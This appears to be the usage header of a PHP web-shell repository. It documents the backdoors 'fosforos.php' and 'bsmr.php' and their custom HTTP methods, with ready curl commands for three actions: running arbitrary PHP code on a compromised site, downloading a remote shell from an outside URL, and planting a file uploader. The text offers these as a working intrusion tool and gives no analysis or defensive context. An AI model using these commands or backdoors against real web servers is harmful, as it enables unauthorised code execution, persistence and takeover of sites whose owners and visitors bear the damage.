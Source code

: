 ////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
#fosforos.php
// use = ssl://sitename.domain/path/filename.php?FosforoS
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
#bsmr.php
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
//[    SAYANGKAMU    ]      = for input php code without '<?php' and '?>'
//example with params     = SayangKamu=echo "kamu siapa?";
//example with curl       = curl -X SAYANGKAMU urldomain/path/filename.ext -d 'SayangKamu=echo "kamu siapa?"; '
//[    SAYANG599     ]      = for input shell by url  
//example with params     = SAYANG599=http://ase.de/kont.ol
//example with curl       = curl -X SAYANG599DONG urldomain/path/filename.ext -d 'SAYANG599=http://ase.de/kont.ol'
//filename if use SAYANG599 599.php
//[ SAYANGAKUMASUKIN ]      = for add uploader in site
//example with params     = ( this not use param ~.~ )
//example with curl       = curl -X SAYANGAKUMASUKIN urldomain/path/filename.ext 
//filename if use SAYANGAKUMASUKIN benihku.php
////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
    
